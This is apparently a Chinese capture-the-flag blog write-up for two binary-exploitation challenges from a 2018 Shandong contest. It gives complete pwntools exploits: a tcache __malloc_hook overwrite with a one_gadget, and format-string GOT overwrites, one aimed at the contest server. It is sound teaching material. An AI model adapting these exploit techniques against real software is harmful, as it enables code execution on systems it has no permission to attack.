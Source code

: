 ```yaml
---
title: '山东省安全竞赛pwn题'
date: 2018-11-11 22:57:56
tags: 题目
---
```

<h1><strong>0x00 堆溢出:bb_tcache</strong></h1>
山大的题目 第一次接触堆的题目 以前只是看过堆溢出unlink相关的知识
山大题目连接http://47.105.148.65:4000/login?next=%2Fchallenges
先简短解释下这道题堆题用到的知识malloc_hook堆钩

```
malloc_hook是在调用malloc函数之前检查的地方，正常情况下该地址下的值为0，如果该内存不为0，则会在malloc前先执行malloc_hook中的地址的内容 也就是说如果我们在这块内存写入one_gadget，就会在malloc前执行one_gadget。
```
每次调用堆的申请 释放等函数时候实际会先执行malloc_hook去鉴别 如果malloc_hook内存值不是0 就会执行malloc_hook中存放地址的内容
![](https://i.loli.net/2018/11/11/5be84596ab863.png)
就是很正规的申请,释放和修改 看一下开了什么保护
![](https://i.loli.net/2018/11/11/5be845e37d9e3.png)
保护全开 只能通过leak地址 拖入IDA 静态调试一下
![](https://i.loli.net/2018/11/11/5be8461b930a2.png)
申请两字节 写入一字节 该elf文件是64位 刚好是写入一个地址的大小 下面开始exp的构造
<h1><strong>0x01 exp</strong></h1>
先ldd一下看一下 该文件用的libc库

```bash
$ ldd bb_tcache
	linux-vdso.so.1 (0x00007ffeadfc1000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f654e38c000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f654e77d000)
```
用的就是``/lib/x86_64-linux-gnu/libc.so.6``
再去找一下这个libc的one_gadget
```bash
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x4f2c5	execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322	execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

```
使用需要满足条件 可以一个一个试试 也可以去找当时的寄存器查条件 这里吧详细说明 我们选择使用最后一个``0x10a38c	execve("/bin/sh", rsp+0x70, environ)``

![](https://i.loli.net/2018/11/11/5be84722e4a15.png)
先把system地址得到 为了后面malloc_hook地址做准备
```python
#!/usr/bin/python 
from pwn import *
sh = process('./bb_tcache')
elf = ELF('./bb_tcache')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
sh.recvuntil('I think you might need this: ')
one_gadget = 0x10a38c
system =int(sh.recvuntil('Give',drop=True),16)
print system
```
drop=True是为了不接受到Give 算是个recv的新知识
下面leak一下malloc_hook的地址
```python
libcbase = system - libc.symbols['system']
print str(int(libcbase))
malloc_hook = libcbase + libc.symbols['__malloc_hook']
print malloc_hook
```
得到地址后就通过修改堆fd指针 通过申请释放修改 再经过2次申请就就可以(不懂得看我前面uaf漏洞介绍) 
```python
sh.sendlineafter('4. quit!\n','1')
sh.sendlineafter('4. quit!\n','2')
sh.sendlineafter('4. quit!\n','3')
sh.sendafter('You might need this to tamper something.\n',p64(malloc_hook))
sh.sendlineafter('4. quit!','1')
sh.sendlineafter('4. quit!','1')
```
第二次申请得到得就是malloc_hook地址 我们需要把one_gadget写入malloc_hook地址内 然后再去执行一次malloc函数 就会因为malloc_hook内地址不为0去执行malloc_hook地址内的内容
```python
sh.sendlineafter('4. quit!','3')
sh.sendafter('You might need this to tamper something.\n',p64(libcbase+one_gadget))
sh.sendlineafter('4. quit!','1')
sh.interactive()
```
完整的exp
```python
#!/usr/bin/python 
from pwn import *
sh = process('./bb_tcache')
elf = ELF('./bb_tcache')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
sh.recvuntil('I think you might need this: ')
one_gadget = 0x10a38c
system =int(sh.recvuntil('Give',drop=True),16)
print system
libcbase = system - libc.symbols['system']
print str(int(libcbase))
malloc_hook = libcbase + libc.symbols['__malloc_hook']
print malloc_hook
sh.sendlineafter('4. quit!\n','1')
sh.sendlineafter('4. quit!\n','2')
sh.sendlineafter('4. quit!\n','3')
sh.sendafter('You might need this to tamper something.\n',p64(malloc_hook))
sh.sendlineafter('4. quit!','1')
sh.sendlineafter('4. quit!','1')
sh.sendlineafter('4. quit!','3')
sh.sendafter('You might need this to tamper something.\n',p64(libcbase+one_gadget))
sh.sendlineafter('4. quit!','1')
sh.interactive()
```

<h1><strong>0x02 格式化字符串:repeater</strong></h1>
一道格式化字符串的题 可以先去看一下我前面文件讲解的格式化字符串
先看一下文件的保护

![](https://i.loli.net/2018/11/12/5be90dc0b1804.png)
开了NX 堆栈不可执行 我们再托人IDA看看
![](https://i.loli.net/2018/11/12/5be90e12ee3a1.png)
很明显看到了格式化字符串漏洞的地方 并且后面还调用了puts函数(可以想到got表覆写)
![](https://i.loli.net/2018/11/12/5be90e7c40a61.png)
还有一个getflag函数 里面可以使用命令cmd 去看一下cmd是什么命令
![](https://i.loli.net/2018/11/12/5be90ebc43b7e.png)
刚好是``cat flag`` 所有可以通过格式化字符串漏洞把 got表中Puts函数地址写为getflag函数就可以 先看一下getflag命令的地址是什么
```bash
.text:080485D5                 sub     esp, 0Ch
.text:080485D8                 lea     eax, (cmd - 804A000h)[ebx] ; "/bin/cat flag"
.text:080485DE                 push    eax             ; command
.text:080485DF                 call    _system
```
可以看到从080485d5开始了system的操作 去看了一下got表中puts的位置
```
got.plt:0804A014 off_804A014     dd offset puts          ; DATA XREF: _puts
```
发现前前2字节是一样的 只需要去覆盖低字节的2个就可以
85d5转10进制是34261 下面开始构造exp
<h1><strong>0x03 exp</strong></h1>

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
puts_got=0x0804a014
get_Flag=0x080485d5
client=remote('47.105.148.65',9999)
#client=process('./repeater')
#.%34261x%7$n1234
client.sendlineafter('your msg:','%34261x%7$hn'+p32(puts_got))
#gdb.attach(client)
client.interactive()
```
<h2>2018.11.15更新</h2>
repeater发现自己做法并不是最正确的 官方给出的题解用了fmtstr_paylaod函数
也是第一次见第一次使用 一个三个参数一个偏移位置 一个要写入的地址 一个写入地址的指 下面直接看exp

```python
from pwn import *
#puts_got=0x0804a014
#get_Flag=0x080485d5
client=remote('47.105.148.65',9999)
#client=process('./repeater')

payload = ''
payload = fmtstr_payload(4,{0x0804A064:0x3}) 
#先把控制循环次数变量改为3次 以防止无限循环
print payload
client.sendlineafter('your msg:',payload)
payload = ''
payload = fmtstr_payload(4,{0x0804A060:0x2018})
#把number变量赋值为0x2018 可以进入getflag函数里
print payload
client.sendline(payload)
payload = ''
payload = fmtstr_payload(4,{0x0804a014:0x080485B6})
#修改puts的got表为getflag地址
print payload
client.sendline(payload)

client.interactive()
#client.recv()
```